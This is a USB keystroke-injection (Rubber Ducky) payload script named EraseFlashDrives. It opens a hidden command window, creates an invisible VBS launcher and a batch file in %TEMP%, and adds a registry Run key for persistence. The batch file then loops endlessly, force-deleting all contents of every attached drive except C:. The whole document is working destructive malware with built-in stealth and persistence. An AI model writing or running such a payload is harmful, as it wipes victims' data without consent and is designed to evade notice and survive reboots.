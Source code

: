 ```
REM By overwraith
REM EraseFlashDrives.txt
REM PURPOSE: to delete the contents of attached drives. 
CONTROL ESCAPE
STRING cmd /Q /D /T:7F /F:OFF /V:OFF /K
DELAY 500
ENTER
DELAY 750
ALT SPACE
STRING M
DOWNARROW
REPEAT 100
ENTER
REM THE DIRECTORY YOU WANT TO HIDE THE SCRIPT IN
STRING cd %TEMP%
ENTER
REM MAKE THE VBS FILE THAT ALLOWS RUNNING INVISIBLY.
REM Delete vbs file if already exists
STRING erase /Q invis.vbs
ENTER
REM FROM: http://stackoverflow.com/questions/289498/running-batch-file-in-background-when-windows-boots-up
STRING copy con invis.vbs
ENTER
STRING CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False
ENTER
CONTROL Z
ENTER
REM Delete batch file if already exists
STRING erase /Q SecurityBullseye.bat
ENTER
REM Make the batch file
REM SLIGHT THROWBACK TO VIDEO GAME BIOSHOCK I/II
STRING copy con SecurityBullseye.bat
ENTER
REM REGISTRY KEY RESTARTS THE SCRIPT ON REBOOT
STRING REG ADD HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Persistence /t REG_SZ /d "wscript.exe %TEMP%\invis.vbs %TEMP%\SecurityBullseye.bat" /f
ENTER
STRING :while1
ENTER
REM C:\ IS USUALLY THE DRIVE THE OS IS INSTALLED ON, SO OMIT. 
STRING for %%a in (A B D E F G H I J K L M N O P Q R S T U V W X Y Z) do (
ENTER
STRING IF EXIST %%a:\ erase /Q /S /F "%%a:\*.*"
ENTER
STRING IF EXIST %%a:\ rmdir /Q /S "%%a:\*"
ENTER
STRING )
ENTER
STRING timeout /t 60
ENTER
STRING goto :while1
ENTER
CONTROL Z
ENTER
REM RUN THE BATCH FILE
STRING wscript.exe invis.vbs SecurityBullseye.bat
ENTER
STRING EXIT
ENTER
```